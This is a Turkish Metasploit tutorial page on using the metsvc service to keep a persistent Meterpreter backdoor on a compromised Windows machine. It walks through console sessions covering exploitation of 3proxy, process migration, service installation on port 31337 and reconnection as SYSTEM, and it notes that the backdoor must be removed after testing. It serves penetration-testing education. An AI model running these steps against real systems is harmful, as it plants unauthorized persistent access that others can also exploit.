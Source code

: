 ```yaml
---
draft: false

title:  'MSF Meterpreter Backdoor'
date: '2017-06-15T13:56:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Hedef sisteme giriş yaptıktan sonra, kalıcılık sağlamanın bir yolu da\_metsvc\_servisini kullanmaktır. Bu servis sayesinde istediğiniz zaman tekrar Meterpreter oturumu açabilirsiniz.\_metsvc\_hakkında detaylı bilgiyi bağlantıyı kullanarak inceleyebilirsiniz." 
 
url:  /tr/msf-meterpreter-backdoor/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## Meterpreter metsvc



Hedef sisteme giriş yaptıktan sonra, kalıcılık sağlamanın bir yolu da `metsvc` servisini kullanmaktır. Bu servis sayesinde istediğiniz zaman tekrar Meterpreter oturumu açabilirsiniz. <a href="http://www.phreedom.org/software/metsvc/">metsvc</a> hakkında detaylı bilgiyi bağlantıyı kullanarak inceleyebilirsiniz.



metsvc hakkında bilmeniz gereken önemli bir noktayı vurgulayalım. **Bu servisi yerleştirdiğiniz bilgisayarın ilgili portunu bulan herkes bu arka kapıyı kullanabilir.** Pentest işlemleri esnasında kullandıktan sonra iptal etmelisiniz yoksa sistemi, art niyetli kişilere açık duruma getirmiş olursunuz. Bu da sistem sahiplerinin hiç hoşuna gitmeyebilir.



Öncelikle sistemde, bulduğunuz bir açıklıkla ilgili modülü kullanarak meterpreter oturumu açalım.


```bash
msf exploit(3proxy) > exploit

> Started reverse handler
> Trying target Windows XP SP2 - English...
> Sending stage (719360 bytes)
> Meterpreter session 1 opened (192.168.1.101:4444 -> 192.168.1.104:1983)
```



`ps` komutuyla `Explorer.exe` programının PID numarasını bulalım ve `migrate` komutuyla bu PID numaralı programa geçiş yapalım.


```bash
meterpreter > ps

Process list
**============**

    PID   Name                 Path
    ---   ----                 ----
    132   ctfmon.exe           C:\WINDOWS\system32\ctfmon.exe
    176   svchost.exe          C:\WINDOWS\system32\svchost.exe
    440   VMwareService.exe    C:\Program Files\VMware\VMware Tools\VMwareService.exe
    632   Explorer.EXE         C:\WINDOWS\Explorer.EXE
    796   smss.exe             \SystemRoot\System32\smss.exe
    836   VMwareTray.exe       C:\Program Files\VMware\VMware Tools\VMwareTray.exe
    844   VMwareUser.exe       C:\Program Files\VMware\VMware Tools\VMwareUser.exe
    884   csrss.exe            \??\C:\WINDOWS\system32\csrss.exe
    908   winlogon.exe         \??\C:\WINDOWS\system32\winlogon.exe
    952   services.exe         C:\WINDOWS\system32\services.exe
    964   lsass.exe            C:\WINDOWS\system32\lsass.exe
    1120  vmacthlp.exe         C:\Program Files\VMware\VMware Tools\vmacthlp.exe
    1136  svchost.exe          C:\WINDOWS\system32\svchost.exe
    1236  svchost.exe          C:\WINDOWS\system32\svchost.exe
    1560  alg.exe              C:\WINDOWS\System32\alg.exe
    1568  WZCSLDR2.exe         C:\Program Files\ANI\ANIWZCS2 Service\WZCSLDR2.exe
    1596  jusched.exe          C:\Program Files\Java\jre6\b**in**\jusched.exe
    1656  msmsgs.exe           C:\Program Files\Messenger\msmsgs.exe
    1748  spoolsv.exe          C:\WINDOWS\system32\spoolsv.exe
    1928  jqs.exe              C:\Program Files\Java\jre6\b**in**\jqs.exe
    2028  snmp.exe             C:\WINDOWS\System32\snmp.exe
    2840  3proxy.exe           C:\3proxy\b**in**\3proxy.exe
    3000  mmc.exe              C:\WINDOWS\system32\mmc.exe

meterpreter > migrate 632
> Migrating to 632...
> Migration completed successfully.
```



`metsvc` modülünü kullanmadan önce yardımı görüntüleyelim ve bize hangi olanakları sağladığını görelim.


```bash
meterpreter > run metsvc -h
>
OPTIONS:

    -A        Automatically start a matching multi/handler to connect to the service
    -h        This help menu
    -r        Uninstall an existing Meterpreter service (files must be deleted manually)

meterpreter >
```



`metsvc`, normalde bize geri bağlantı da sağlayan bir programdır ancak biz zaten Meterpreter oturumu açtığımız için geri bağlantıya şimdilik ihtiyacımız yok. Sadece programı çalıştıralım.


```bash
meterpreter > run metsvc
> Creating a meterpreter service on port 31337
> Creating a temporary installation directory C:\DOCUME~1\victim\LOCALS~1\Temp\JplTpVnksh...
>  **>>** Uploading metsrv.dll...
>  **>>** Uploading metsvc-server.exe...
>  **>>** Uploading metsvc.exe...
> Starting the service...
>      ***** Installing service metsvc
 ***** Starting service
Service metsvc successfully installed.

meterpreter >
```



`metsvc` başladı ve artık bağlanmak için bekliyor. Şimdi bu servisle nasıl haberleşeceğimizi görelim.



Hedef sistemde dinleme durumundaki `metsvc` ile haberleşmek için `windows/metsvc_bind_tcp` payload modülünü kullanacağız. Modülü, aşağıdaki örnekte olduğu gibi aktif hale getirelim ve gerekli PORT ayarlarını yapalım.


```bash
msf > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/metsvc_bind_tcp
PAYLOAD => windows/metsvc_bind_tcp
msf exploit(handler) > set LPORT 31337
LPORT => 31337
msf exploit(handler) > set RHOST 192.168.1.104
RHOST => 192.168.1.104
msf exploit(handler) > show options

Module options:

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/metsvc_bind_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique: seh, thread, process
   LPORT     31337            yes       The local port
   RHOST     192.168.1.104    no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf exploit(handler) > exploit

> Starting the payload handler...
> Started bind handler
> Meterpreter session 2 opened (192.168.1.101:60840 -> 192.168.1.104:31337)
```



Gördüğünüz gibi `session 2` otomatik olarak açıldı. Şimdi, `metsvc` servisinin hedef bilgisayarda hangi PID numarasıyla çalıştığına bakalım.


```bash
meterpreter > ps

Process list
**============**

   PID   Name               Path                                                  
   ---   ----               ----                                                  
   140   smss.exe           \SystemRoot\System32\smss.exe                         
   168   csrss.exe          \??\C:\WINNT\system32\csrss.exe                       
   188   winlogon.exe       \??\C:WINNT\system32\winlogon.exe                    
   216   services.exe       C:\WINNT\system32\services.exe                        
   228   lsass.exe          C:\WINNT\system32\lsass.exe                           
   380   svchost.exe        C:\WINNT\system32\svchost.exe                         
   408   spoolsv.exe        C:\WINNT\system32\spoolsv.exe                         
   444   svchost.exe        C:\WINNT\System32\svchost.exe                         
   480   regsvc.exe         C:\WINNT\system32\regsvc.exe                          
   500   MSTask.exe         C:\WINNT\system32\MSTask.exe                          
   528   VMwareService.exe  C:\Program Files\VMware\VMware Tools\VMwareService.exe
   564   metsvc.exe         c:\WINNT\my\metsvc.exe                                
   588   WinMgmt.exe        C:\WINNT\System32\WBEM\WinMgmt.exe                    
   676   cmd.exe            C:\WINNT\System32\cmd.exe                             
   724   cmd.exe            C:\WINNT\System32\cmd.exe                             
   764   mmc.exe            C:\WINNT\system32\mmc.exe                             
   816   metsvc-server.exe  c:\WINNT\my\metsvc-server.exe                         
   888   VMwareTray.exe     C:\Program Files\VMware\VMware Tools\VMwareTray.exe   
   896   VMwareUser.exe     C:\Program Files\VMware\VMware Tools\VMwareUser.exe   
   940   firefox.exe        C:\Program Files\Mozilla Firefox\firefox.exe          
   972   TPAutoConnSvc.exe  C:\Program Files\VMware\VMware Tools\TPAutoConnSvc.exe
   1000  Explorer.exe       C:\WINNT\Explorer.exe                                 
   1088  TPAutoConnect.exe  C:\Program Files\VMware\VMware Tools\TPAutoConnect.exe

meterpreter > pwd
C:\WINDOWS\system32
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```



Çıktıdan görülebileceği gibi, `metsvc` programı, 564 PID numarasıyla çalışmaktadır. Artık istediğiniz zaman, hedef bilgisayarda dinleme yapan programa, `windows/metsvc_bind_tcp` payload modülünü kullanarak bağlanabiliriz.



Tekrar hatırlatmak gerekirse, güvenlik testi işlemleriniz bittiğinde `metsvc` programını sistemden silmelisiniz.
